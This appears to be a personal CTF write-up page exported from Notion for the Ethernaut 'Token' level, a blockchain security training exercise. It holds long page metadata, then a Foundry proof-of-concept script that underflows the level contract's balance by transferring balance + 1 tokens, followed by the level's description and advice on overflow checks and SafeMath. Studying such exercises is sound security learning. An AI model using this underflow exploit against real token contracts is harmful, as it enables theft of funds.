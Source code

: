```yaml
---
title: "Token"
date: "2024-02-01"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Telephone-8b2069f0beb045b69400a28665c1d56c"
weight: 6
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/5"
next: "Delegation-0c005c8b167c4966926771bad0ff918c"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "4a8cb876-5f8c-4121-90f2-db4a7989f9b5"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Telephone-8b2069f0beb045b69400a28665c1d56c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone-8b2069f0beb045b69400a28665c1d56c"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 6
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/5"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Delegation-0c005c8b167c4966926771bad0ff918c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation-0c005c8b167c4966926771bad0ff918c"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Token"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token"
          href: null
  url: "https://www.notion.so/Token-4a8cb8765f8c412190f2db4a7989f9b5"
  public_url: null
UPDATE_TIME: "2024-02-15T12:45:48.788Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Token {
  function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint balance);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_05");
        address publicKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);
        Token token = Token(addr);
        uint balance = token.balanceOf(publicKey);
        console.logUint(balance);
        token.transfer(address(0), balance + 1);
        balance = token.balanceOf(publicKey);
        console.logUint(balance);

        vm.stopBroadcast();
    }
}
```


The goal of this level is for you to hack the basic token contract below.


You are given 20 tokens to start with and you will beat the level if 
you somehow manage to get your hands on any additional tokens. 
Preferably a very large amount of tokens.


Things that might help:

- What is an odometer?

Overflows are very common in solidity and must be checked for with control statements such as:


```text
if(a + c > a) {
  a = a + c;
}

```


An easier alternative is to use OpenZeppelin's SafeMath library that 
automatically checks for overflows in all the mathematical operators. 
The resulting code looks like this:


```text
a = a.add(c);

```


If there is an overflow, the code will revert.

